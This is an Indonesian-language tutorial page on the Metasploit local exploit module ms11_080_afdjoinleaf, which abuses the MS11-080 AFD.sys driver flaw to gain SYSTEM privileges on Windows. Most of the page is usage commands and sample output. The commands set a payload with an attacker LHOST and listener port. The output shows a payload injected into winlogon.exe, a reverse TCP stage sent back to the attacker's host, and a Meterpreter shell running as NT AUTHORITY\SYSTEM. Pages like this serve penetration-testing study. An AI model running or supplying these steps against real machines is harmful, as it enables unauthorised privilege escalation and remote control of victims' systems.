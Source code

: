 # ms11_080_afdjoinleaf

Modul `ms11_080_afdjoinleaf` di Metasploit adalah modul `exploit local` untuk sistem Windows yang memanfaatkan kerentanan pada driver `AFD.sys` (`Ancillary Function Driver`) yang diungkap dalam buletin keamanan `MS11-080`. Eksploitasi ini memungkinkan eskalasi hak akses dari user biasa ke `SYSTEM` dengan menyalahgunakan pengelolaan objek kernel melalui fungsi `NtMapUserPhysicalPages`.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms11_080_afdjoinleaf
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Kernel Base Address: 0x804d7000
[*] HalDispatchTable Address: 0x80553038
[*] HaliQuerySystemInformation Address: 0x80715bba
[*] HalpSetSystemInformation Address: 0x80718436
[*] Triggering AFDJoinLeaf pointer overwrite...
[*] Injecting the payload into SYSTEM process: winlogon.exe
[*] Creating the thread to execute in 0xaf0000 (pid=620)
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Restoring the original token...
[*] Meterpreter session 26 opened (192.168.1.11:4444 -> 192.168.1.54:1059) at 2025-05-17 08:17:32 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

